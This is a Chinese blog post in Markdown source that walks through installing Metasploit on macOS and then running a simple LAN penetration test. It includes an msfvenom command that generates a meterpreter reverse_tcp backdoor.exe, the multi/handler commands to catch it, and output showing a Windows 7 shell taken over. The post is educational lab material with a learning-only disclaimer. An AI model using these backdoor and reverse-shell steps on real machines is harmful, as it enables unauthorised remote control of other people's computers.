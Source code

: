 ```yaml
---
layout:     post
title:      Metasploit折腾小记
date:       2015-11-08 11:40:25
author:     Hsmouc
summary:    Metasploit在Mac OS上的安装和基础使用    
categories: Hacking
thumbnail:  heart
tags:
 - 欢迎来我的博客
---
```

- 还是写在文前：怎么说呢，折腾这个东西我的内心是很复杂的。一个美好的用来写模电和概率和大物的周日就这么没了ˊ_>ˋ哎呀，可是人家就是这么执着的跳坑怎么破。还是和以往一样，这篇文章的相关技术仅供学习，千万不要做出一些危险出格的事情。

###Metasploit的安装
这一部分真的是让我的心都碎了，也是最难折腾的。在YouTube上面找了好多视频，永远都是人家一路回车，我一路报错，果然是人品用完的节奏。闲话少说，开始安装，我的系统是Mac OS X 10.10.5，一般大家都是用BT5干这种活啦。

1. 从Github上克隆Metasploit项目    
选一个合适的目录，然后在终端里面输入:
{% highlight c %}
git clone git@github.com:rapid7/metasploit-framework.git
{% endhighlight %}
之后把终端cd到你刚才选择的目录，输入:
{% highlight c %}
msfconsole
{% endhighlight %}
报错就对了，因为你没有装蛋疼的依赖环境。
2. 安装依赖环境  
2.1 *Ruby*  
因为我是Mac系统又安装了Xcode，所以已经有了Ruby 1.8的环境，但是后续安装会要求更高的版本，所以我们先更新一下Ruby，推荐使用rvm，具体参见[脉脉不得语的技术博客](http://www.inferjay.com/blog/2013/05/09/how-to-install-ruby-1-dot-9-3-in-mac-osx/)  
2.2 *Homebrew* 
这玩意是个OS X的软件管理器，相当好用，我们使用Ruby命令来安装它，下面的安装会用到。
{% highlight ruby %}
ruby -e "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install)"
{% endhighlight %}
我们作死运行下Metasploit，发现还是报错，具体报什么错我也忘记了（哭）。     
2.3 *Nmap*   
强大的嗅探器，使用我们刚刚装好的homebrew安装：
{% highlight c %}
brew install nmap
{% endhighlight %}    
2.4 *bundler*  
就是这货坑死人不偿命，按照教程来说，只需要简单的一句指令：
{% highlight c %}
gem install bundler
{% endhighlight %}
我猜你们一定会在安装到nokogiri的时候报错，事实就是这玩意需要自己手动安装，报错提示libiconv is missing，解决方案：
{% highlight c %}
brew update
xcode-select --install
brew link libiconv--force
gem install nokogiri -- --with-iconv-dir=/usr/local/Cellar/libiconv/1.14
{% endhighlight %}
再次使用gem install bundler
3. 安装postgresql并配置。   
这个我不会-_-#，因为我发现不配置数据库的话Metasploit已经可以使用了，不用数据库的视频教程见[YouTube](https://www.youtube.com/watch?v=C2CEQupM2PM).我基本上是按照他的顺序安装的。   
关于配置数据库的教程：[RickGrey](http://www.freebuf.com/articles/system/36924.html)(中文教程)、[Darkoperator](http://www.darkoperator.com/installing-metasploit-framewor/)(英文教程)。  
其他的相关问题可以在官方的论坛[RAPID7COMMUNITY](https://community.rapid7.com/community/metasploit)上交流。   

###一次简单的内网渗透
- 工具：Mac OS X with Metasploit(Attacker)  Windows 7(Victim)
- 原理：通过msfpayload生成后门exe然后上传到目标机器上执行，通过本地监听获得meterpreter shell，并得到shell
####生成一个backdoor.exe
Windows:
{% highlight c %}
sudo ./msfvenom windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> X > backdoor.exe
{% endhighlight %}
几点说明：如果被攻击的计算机和你在同一局域网下，可以使用LAN IP，用ifconfig即可，如果是WAN攻击则使用WAN IP即可。     
如果运行sudo ./msfvenom终端提示你安装bundler，自求多福吧，我也不知道怎么解决的。耗了一下午反复装了无数遍最后居然莫名其妙的好了。  
这里使用的msfvenom是因为软件更新，原先的msfpayload功能已经集成在了msfvenom里了。
####上传backdoor.exe并获得shell
直接上指令：  
{% highlight c %}
$ msfconsole
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.3
LHOST => 192.168.1.3
msf exploit(handler) > set LPORT 4444
LPORT => 4444
msf exploit(handler) > exploit
{% endhighlight %}
在Victim的计算机上双击backdoor.exe，顺利的话会这样：
{% highlight c %}
[*] Started reverse handler on 192.168.1.3:4444
[*] Starting the payload handler...
[*] Sending stage (957486 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:54411) at 2015-11-08 22:07:07 +0800
{% endhighlight %}
然后输入shell尽情玩耍吧……   
附上一张截图：
![](http://ww4.sinaimg.cn/mw690/005WMcFzjw1exupqph2nvj313w0bxack.jpg)
由图可见我完全接管了Windows 7的shell，下面就可以随心所欲了23333
###小结
对于linux来说，遇到错误真的就是Google，复制命令然后祈祷了。装什么东西都要搞一大堆依赖包，不过总体来说还是比较人性化，大多数时候终端会告诉你你需要装什么。Metasploit功能强大，最近在测试的只是基于LAN下的计算机，更深入的问题留作以后探讨。     
最后用BackTrack Linux上的一句话来作结：
>The quieter you become,the more you are able to hear...